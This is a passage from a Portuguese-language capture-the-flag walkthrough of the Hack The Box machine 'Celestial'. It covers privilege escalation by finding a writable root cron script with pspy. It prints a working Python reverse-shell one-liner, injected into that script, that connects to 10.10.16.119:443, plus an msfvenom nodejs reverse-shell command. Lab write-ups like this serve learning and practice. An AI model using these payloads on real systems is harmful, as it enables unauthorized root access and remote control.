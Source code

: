 Se percebermos tive que tirar o *function()* ai deu certo, o porque não consegui entender.

# Escalação de privilégio

Bom, uma vez esclarecido a questão de como explorar a vulnerabilidade, vamos iniciar a fase de escalação de privilégio

Com o script de enumeração não vamos encontrar nada de útil, entã rodamos o PSPY na máquina, pra verificar se tem alguma cronjob rodando como root

> https://github.com/DominicBreuker/pspy

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-celestial/C_pspy.png)

Passamos pra máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-celestial/C_pspy1.png)

Executamos e verificamos! Tem um script em /Document/script.py que é executado

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-celestial/C_pspy2.png)

Verificamos do que se trata e suas permissões

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-celestial/C_priv.png)

Podemos escrever nele! Agora ficou fácil, injetamos um shell python

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.119",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-celestial/C_priv1.png)

Ligamos o nc na máquina e esperamos virar root!

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-celestial/C_priv2.png)

## Pegamos flag de user e root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-celestial/C_root.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-celestial/C_user.png)

# Obs Msfvenom

Também daria pra fazer através do msfvenom, ele suporta criação da payloads nodejs, mas eu não consegui reproduzir com sucesso. Então, fica pra próxima! Se alguém conseguir, por favor entre em contato comigo.

> msfvenom -p nodejs/shell_reverse_tcp LHOST=10.10.16.119 LPORT=443